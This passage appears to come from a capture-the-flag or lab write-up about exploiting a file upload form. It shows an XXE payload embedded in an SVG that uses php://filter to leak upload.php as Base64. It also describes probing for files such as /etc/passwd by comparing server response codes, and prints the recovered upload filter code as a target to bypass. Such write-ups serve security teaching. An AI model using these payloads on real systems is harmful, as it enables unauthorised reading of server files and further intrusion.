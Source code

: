 Sadly, the first case does not work because the `expect` PHP module is not loaded.

For finding the upload directory, we can try to read the content of `upload.php` file but if I use XXE vulnerability as above with `file:///var/www/html/contact/upload.php` I get 500 Server Error, meaning that the file does not exist or the access on it is restricted. Most probably, in our case the access is restricted to `.php` files.

Note: by using the XXE injection above, we can use `SYSTEM "file:///etc/passwd"` to check which files and directories exist (if they are not restricted), indeed if we get a 200 response from the server, the file/directory exists; if we get a 500 response, the file/directory doesn't exist or the access is restricted.

For bypassing the restriction on `.php` file, we can upload a file containing the following:
```xml
<?xml version="1.0"?>
<!DOCTYPE foo [
<!ENTITY ac SYSTEM "php://filter/read=convert.base64-encode/resource=upload.php">]>
<svg><result>&ac;</result></svg>
```
Source: https://github.com/payloadbox/xxe-injection-payload-list

Note: if I type `php://filter/read=convert.base64-encode/resource=upload.php` I get the source code of this PHP file. If I type `php://filter/read=convert.base64-encode/resource=http://SERVER_IP:PORT/contact/upload.php` I get `Only images are allowed` string but I don't know why. Maybe they are different files?

As result, we get the Base64 of the following:
```php
<?php
require_once('./common-functions.php');

// uploaded files directory
$target_dir = "./user_feedback_submissions/";

// rename before storing
$fileName = date('ymd') . '_' . basename($_FILES["uploadFile"]["name"]);
$target_file = $target_dir . $fileName;

// get content headers
$contentType = $_FILES['uploadFile']['type'];
$MIMEtype = mime_content_type($_FILES['uploadFile']['tmp_name']);

// blacklist test
if (preg_match('/.+\.ph(p|ps|tml)/', $fileName)) {
    echo "Extension not allowed";
    die();
}

// whitelist test
if (!preg_match('/^.+\.[a-z]{2,3}g$/', $fileName)) {
    echo "Only images are allowed";
    die();
}

// type test
foreach (array($contentType, $MIMEtype) as $type) {
    if (!preg_match('/image\/[a-z]{2,3}g/', $type)) {
        echo "Only images are allowed";
        die();
    }
}

// size test
if ($_FILES["uploadFile"]["size"] > 500000) {
    echo "File too large";
    die();
```